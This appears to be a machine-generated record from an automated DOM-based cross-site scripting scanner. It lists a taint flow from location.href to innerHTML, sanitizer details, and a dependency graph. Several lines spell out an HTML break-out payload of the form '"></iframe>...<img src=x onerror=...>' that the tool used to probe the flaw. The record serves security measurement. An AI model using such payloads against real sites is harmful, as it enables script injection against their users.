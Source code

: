 // Finding: 98b21b5b-ed95-461e-ad04-9492037bdd62
// Finding.url: https://house.example236.com/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('41a87998a5a1419297b160ce88822dc0')><!--/*
// Finding.parentloc: https://house.example236.com/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('41a87998a5a1419297b160ce88822dc0')><!--/*
// Finding.domain: house.example236.com
// Finding.base_domain: example236.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: process
// Sanitizer.location: https://p0.example237.com/a/2018/0730/https/fa.min.js - process:1:3098
// Finding.begin: 682
// Finding.end: 905
// Finding.original_uuid: bab879a2-959f-477d-891d-64b2c5e76624
// Finding.TwentyFiveMillionFlowsId: -1788762035
// Finding.script: https://cpro.example238.com/cpro/ui/c.js
// Finding.line: 1
// Exploit.uuid: 41a87998-a5a1-4192-97b1-60ce88822dc0
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: iframe
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 24
// Exploit.replace_begin_url: 24
// Exploit.replace_end_url: 24
// Exploit.replace_begin_param: 716
// Exploit.replace_end_param: 716
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1980233274
// DepGraph.sanitizer_hash: -1980233274

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /[&]/"];
n3 [shape=box, label="Lit: |"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="encodeURIComponent"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Var: x"];
n8 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n7 -> n5;
n8 -> n7;
}